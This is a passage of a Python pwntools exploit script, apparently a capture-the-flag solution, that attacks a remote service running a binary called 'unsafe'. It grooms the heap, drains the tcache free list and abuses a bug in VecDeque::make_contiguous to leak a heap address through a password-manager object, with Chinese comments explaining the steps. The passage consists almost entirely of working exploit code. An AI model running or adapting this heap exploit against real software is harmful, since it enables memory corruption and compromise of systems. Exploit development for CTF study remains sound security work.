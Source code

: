 ```python
                    io.send(p8(ascii))

#io = process("./unsafe")
io = remote("flu.xxx", 20025)

ht = HighlightedTask()
task_list = []
context_list1 = ['y' * 0x28, 'z' * 0x28]
for i in range(2):
    task_list.append(context_list1)
ht.push_back(task_list)
for i in range(2):
    ht.pop_set()
for i in range(4):
    task_list.append(context_list1)
context_list1 = ['j' * 0x58, 'k' * 0x58]
task_list.append(context_list1)
ht.push_back(task_list)
for i in range(6):
    ht.pop_set()
ht.pop_set()

pm = PasswordManager()
context_list2 = ['s' * 0x28, 't' * 0x28]
task_list = []
for i in range(7):
    task_list.append(context_list2)
ht.push_back(task_list) # 把tcache free list 中的chunk全部申请完

ht.pop_set() # 返回和上一次pop相同的highlighted_task
pm.insert('1' * 8, 'j' * 8)
pm.alter('1' * 8, '\x00' * 0x11) # 这个value将被free，然后就可以泄漏堆地址了
ht.pop_set()
heap_addr = u64(pm.get('1' * 8)[8:16].ljust(8, b'\x00')) - 0x10
print("heap_addr = " + hex(heap_addr))

for i in range(10):
    ht.pop_set()

# 第二次利用VecDeque::make_contiguous中的漏洞
task_list = []
context_list1 = ['g' * 0x28, 'h' * 0x28]
for i in range(2):
    task_list.append(context_list1)
print(task_list)
ht.push_back(task_list)
for i in range(2):
    ht.pop_set()
for i in range(4):
    task_list.append(context_list1)
context_list1 = ['n' * 0x58, 'o' * 0x58]
task_list.append(context_list1)
ht.push_back(task_list)
for i in range(6):
    ht.pop_set()
ht.pop_set()

context_list2 = ['a' * 0x28, 'i' * 0x28]
task_list = []
for i in range(20):
    task_list.append(context_list2)
ht.push_back(task_list) # 把tcache free list 中的chunk全部申请完

```